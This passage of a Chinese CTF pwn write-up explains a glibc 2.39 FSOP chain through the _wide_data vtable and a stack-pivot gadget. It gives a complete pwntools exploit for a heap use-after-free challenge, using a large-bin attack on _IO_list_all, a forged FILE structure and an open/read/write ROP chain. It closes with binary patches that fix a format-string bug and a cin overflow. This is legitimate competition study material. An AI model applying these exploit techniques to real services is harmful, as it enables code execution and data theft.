如果`f->_flags & _IO_NO_WRITES`不满足且`(f->_flags & _IO_CURRENTLY_PUTTING) == 0|| f->_wide_data->_IO_write_base == NULL`且`f->_wide_data->_IO_write_base == 0`,程序会继续调用利用链的下一环----`_IO_wdoallocbuf`

```c
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
```

我们需要使`fp->_wide_data->_IO_buf_base`不成立,且`(fp->_flags & _IO_UNBUFFERED)`为伪,让程序去执行有`_IO_WDOALLOCATE`的那个判断.

```c
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
```

它会通过`_wide_data->_wide_vtable->__doallocate`调用到`__doallocate`.而我们可以通过伪造`_wide_vtable`以及它的`__doallocate`项,来实现任意函数执行.

(为什么要绕这么一大圈?是为了绕开各种各样的检查.由于这玩意的代码量比malloc大多了,我就暂时不去审计了.把利用链上的东西看完,明白大概是怎么个原理就行.)

当然,到这一步为止,我们已经可以用它执行one_gadget或system了,不过想要让它执行rop链(hgame的那题就开了沙箱,用不了one_gadget),我们还需要设法控制rsp.

既然我打算复现的题是2.39的,那就让我们先来考虑2.39版本的利用.

直接上图:



如图,如果我们把`__doallocate`覆写为这个地址,那么它就会实现接下来的一系列效果:

1. 将r12写为rdi+0x48(即fp+0x48)存储的值
2. 将rax写为r12+0x18内存储的值
3. 将r12+0x10写为0
4. call rax+0x28

也就是说,它将r12设为了\*(fp+0x48),然后调用了\*(\*(\*(fp+0x48)+0x18)+0x28) (好绕)

然后我们看下一张图:(图里没有给偏移,为0x5814D)



看起来很大一串,但实际上对我们有用的就三句:

```assembly
mov rdx ,r12;
mov rsp,[rdx+0xA0]
ret
```

也就是说,我们可以将\*(\*(\*(fp+0x48)+0x18)+0x28)设为这个地址,然后在*(\*(fp+0x48)+0xe0)的位置布置rop链.

大概就这样.

##### 5:whereisvuln

以前没见过的题...虽然是菜单题,但引用了一个出题方自己编写的so文件.在这个文件里才是各个功能函数的实现.

主要漏洞点在于del_note函数没有清除free后chunk的指针.

```c
unsigned __int64 edit_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
    {
      printf("Content: ");
      read(0, (void *)notes[v1], (int)note_size[v1]);
    }
    else
    {
      puts("Page not found.");
    }
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return v2 - __readfsqword(0x28u);
}
```

```c
unsigned __int64 add_note()
{
  unsigned int v0; // ebx
  unsigned int v2; // [rsp+0h] [rbp-20h] BYREF
  int size[5]; // [rsp+4h] [rbp-1Ch] BYREF

  *(_QWORD *)&size[1] = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xF )
  {
    printf("Size: ");
    __isoc99_scanf("%u", size);
    if ( size[0] <= 0x900u )
    {
      if ( size[0] > 0x4FFu )
      {
        v0 = v2;
        notes[v0] = malloc((unsigned int)size[0]);
        note_size[v2] = size[0];
      }
      else
      {
        puts("Too small.");
      }
    }
    else
    {
      puts("Too big.");
    }
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return *(_QWORD *)&size[1] - __readfsqword(0x28u);
}
```

这个chunk大小,摆明了是让我们用large_bin_attack了.

那么我们首先泄露一下heap和libc地址:

```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
def add_c(index,size):
	r.recvuntil(b">")
	r.sendline(b"1")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	r.recvuntil(b"Size: ")
	r.sendline(str(size))	
	return
def show_c(index):
	r.recvuntil(b">")
	r.sendline(b"4")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	return
def del_c(index):
	r.recvuntil(b">")
	r.sendline(b"2")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	return

def edit_c(index,content):
	r.recvuntil(b">")
	r.sendline(b"3")
	r.recvuntil(b"Index: ")
	r.sendline(str(index))
	r.recvuntil(b"Content: ")
	r.send(content)	
	return

r=process("./vuln")
pause()
add_c(0,0x500)
add_c(1,0x500)
add_c(2,0x500)
add_c(3,0x500)
del_c(2)
show_c(2)
libc_base=u64(r.recv(6).ljust(8,b"\x00"))-0x203B20
print(hex(libc_base))
del_c(0)
show_c(0)
heap_start=u64(r.recv(6).ljust(8,b"\x00"))-0xCB0
print(hex(heap_start))
del_c(1)
del_c(3)
```

然后申请一些chunk,free掉一些,然后再次申请chunk,使chunk2从unsorted_bin被转移进large_bin.

```python
add_c(0,0x500)
add_c(1,0x510)
add_c(2,0x510)
add_c(3,0x510)
add_c(4,0x510)
add_c(5,0x900)
add_c(6,0x900)
add_c(7,0x510)

del_c(5)

del_c(6)


del_c(2)

add_c(8,0x650)#申请一个比chunk2大的chunk,保证chunk2进入large_bin
```

然后修改chunk2的bk_nextsize指针,让它指向\_IO\_list\_all-0x20,最后将一个小于chunk2(准确的说,是小于large_bin中所有chunk)的chunk整理到chunk2前面,完成large_bin_attack,将\_IO\_list\_all覆写为chunk0的地址.

```python
libc=ELF("./libc-2.39.so")
iolistall_add=libc_base+libc.sym["_IO_list_all"]
edit_c(2,p64(0)*3+p64(iolistall_add-0x20))

del_c(0)
add_c(9,0x650)
```

接下来,我们准备一些地址:

```python
chunk0_add=heap_start+0x290
wide_data_add=chunk0_add+0x520 #chunk1 user text add
add_1=wide_data_add+0x88

rdi_add=0x10f75b+libc_base
rsi_add=0x110a4d+libc_base
rdx_add=0x9819d+libc_base #pop rdx; lea; ret;
ret_add=0x1296c5+libc_base
rsp_add=0x3c058+libc_base
rbp_add=0x28a91+libc_base #由于这题是pop rdx; lea; ret; ,所以我们还需要控制rbp
binsh_add=next(libc.search(b"/bin/sh"))+libc_base #其实这题用不上这个
sys_add=libc.sym["system"]+libc_base #同上
svcudp_reply=0x17923D+libc_base#glibc2.39 ubuntu 8.3 之后
swapcontext=0x5814D+libc_base
```

然后我们在chunk0里开始构造\_IO\_FILE:

```python
fake_file = b''
fake_file = p64(0)+p64(1) #这里似乎有点问题,实际上应该是p64(0)*3+p64(1),这里也许是题目比较特殊?
fake_file = fake_file.ljust(0x38,b'\x00')+p64(add_1)#r12会被修改成这个地址,随后程序会将rax设为这个地址+0x18处的值.
fake_file = fake_file.ljust(0x78,b'\x00')+p64(wide_data_add)#不知道为什么要把IO_lock_t *_lock设为这个地址...也许只是因为它可写?
fake_file = fake_file.ljust(0x90,b'\x00')+p64(wide_data_add) #wide_data会指向这个地址
fake_file = fake_file.ljust(0xc8,b'\x00')+p64(IO_wfile_jumps)
edit_c(0,fake_file)
```

接下来是伪造wide_data,以及控制rsp:

```python
rop_add=chunk0_add+0x510+0x520+0x10

payload = b''
payload = payload.ljust(0x58,b'\x00')+p64(svcudp_reply)
payload = payload.ljust(0xa0,b'\x00')+p64(wide_data_add+0x120-0x28)+p64(ret_add) #rax会被写为前面的那个值 (另外,这里的这个ret似乎是不必要的)
payload = payload.ljust(0xc0,b'\x00')+p64(wide_data_add)+p64(0)*3+p64(wide_data_add-0x10)+p64(0)
payload +=b'\x00'*0x28+p64(wide_data_add)
payload +=p64(swapcontext) #程序会调用这个地址
payload = payload.ljust(0x128,b'\x00')+p64(wide_data_add+0x130)+p64(ret_add)+p64(rsp_add)+p64(rop_add)#rsp会被设为p64(wide_data_add+0x130) (如果不需要orw的话,可以直接在这设置system的rop链.不过这样的话可能需要额外的ret调整对齐)
payload = payload.ljust(0x168,b'\x00')+p64(wide_data_add)
edit_c(1,payload)
```

这样,程序的rsp指针就会被我们调整到由我们控制的rop_add处.

最后就是orw:

```python
open_add=libc.sym["open"]+libc_base
read_add=libc.sym["read"]+libc_base
write_add=libc.sym["write"]+libc_base
rop=p64(rdi_add)+p64(rop_add+0x200)+p64(rsi_add)+p64(0)+p64(open_add)+p64(rdi_add)+p64(3)+p64(rsi_add)+p64(rop_add+0x220)+p64(rbp_add)+p64(rop_add+0x60)+p64(rdx_add)+p64(0x100)+p64(read_add)+p64(rdi_add)+p64(1)+p64(rsi_add)+p64(rop_add+0x220)+p64(rbp_add)+p64(rop_add+0xa8)+p64(rdx_add)+p64(0x100)+p64(write_add)
rop=rop.ljust(0x200,b"\x00")+b"/flag"
edit_c(2,rop)
```

成功打通线下.

哦对,在glibc2.35的时候还有更方便的setcontext,下次把这玩意看一下.



##### 6:格式化字符串漏洞的修复

首先,假设我们通过审计发现了一个格式化字符串漏洞:

```assembly
lea     rdx, [rbp+buf]
lea     rax, [rbp+buf]
mov     rsi, rdx        ; format
mov     rdi, rax        ; s
mov     eax, 0
call    _sprintf
```

此处format被设为了用户输入的字符串buf.

而我们需要将它更改为%s.

首先,我们寻找一片没人用的内存(eh_frame段),点击右键-patching-change_byte,输入%s的ascll码,并在最后加上\\x00进行截断

```assembly
.eh_frame:00000000004020E8 aS              db '%s',0   
```

然后,我们通过将`mov *,0;`改为`xor *,*`来获取空间,将`mov rsi ,rax`改为`mov rsi ,0x4020E8`即可.(eh_frame本来就有读权限,所以不需要改段权限)

```assembly
lea     rdx, [rbp+buf]
lea     rax, [rbp+buf]
mov     rsi, 0x4020E8  ; "%s"
nop
nop
mov     rdi, rax        ; s
mov     eax, 0
call    _sprintf
```

##### 7.scanf()替换cin.

由于cin不会验证输入长度,导致读入的字符覆盖到了字符串对象的地址,造成了任意地址写.(原题是通过改got表为后门函数打的,不过把__stack_chk_fail改成ret然后正常打栈溢出rop链应该也行)

修复方案是jmp到`eh_frame`段,通过got表中已经加载的函数的偏移得到scanf地址,然后用格式化字符串限制输入长度.

用read可能也行,但read与scanf/cin对于换行符和空格的处理方式不同,可能(对这题来说,很大概率)过不了check.

下面是代码实现:

```assembly
jmp     loc_402100 ;注释了原本的函数调用
; START OF FUNCTION CHUNK FOR main

loc_402100:
mov     rdi, offset a32s ; "%32s"
mov     rax, cs:off_404070
sub     rax, 29E40h
call    rax
jmp     loc_4014F9
; END OF FUNCTION CHUNK FOR main
```

另外记得用010改段权限.



##### 8.题外话

前段时间(大概是寒假)打牌的时候碰到个奇怪的id:


